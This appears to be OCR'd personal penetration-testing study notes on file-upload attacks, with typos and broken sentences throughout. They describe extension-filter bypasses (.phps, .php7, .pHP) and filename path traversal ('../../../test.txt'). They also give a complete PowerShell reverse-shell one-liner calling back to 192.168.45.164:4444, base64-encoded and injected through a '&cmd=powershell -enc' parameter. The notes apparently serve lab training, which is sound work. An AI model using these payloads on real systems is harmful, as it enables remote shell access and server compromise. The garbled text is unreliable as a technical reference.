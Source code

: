 conntent management system, often upload avatar

ect

just upload like the nibbles box

if php is blocked we ecan rename the files extention to phps or php7 

or we can change chatacters in the file extension to upper case

.php to .pHP


powershell one-liner for reverse shell

encode with base64

pwsh
to run powershell in kali

$Text = '$client = New-Object System.Net.Sockets.TCPClient("192.168.45.164",4444);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'

$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)

$EncodedText =[Convert]::ToBase64String($Bytes)

$EncodedText

exit

variable $Text used to store the reversehll logic
convert and the property Unicode from the class Encoding to encde content of Text Var

and then we can use the vuln explored before with 
&cmd=powershell%20-enc%20<command base64>
-enc used to decode the encoded code from the powershell op


Using non executable files

something like google drive

when testing file uplaod form, determine what happens when the same files is uploaded multiple time, app indicates files exists we can use brute force to get the content of server, error message is helpful as  well


POST request in BURP for uploading file

we can mod the file name for directory traversal in burp: 
../../../../../../../test.txt

Apache Nginx or other dedicated web server run with specific users such as www-data on linux.

windows IIS webserver runs as a network service account, passwordless buildin windows id with low privileges

when using programming languages that include their own webserver, admins often deply web app without any privilege structures by running at root or admin ro avoid permission, always verify whe we can use
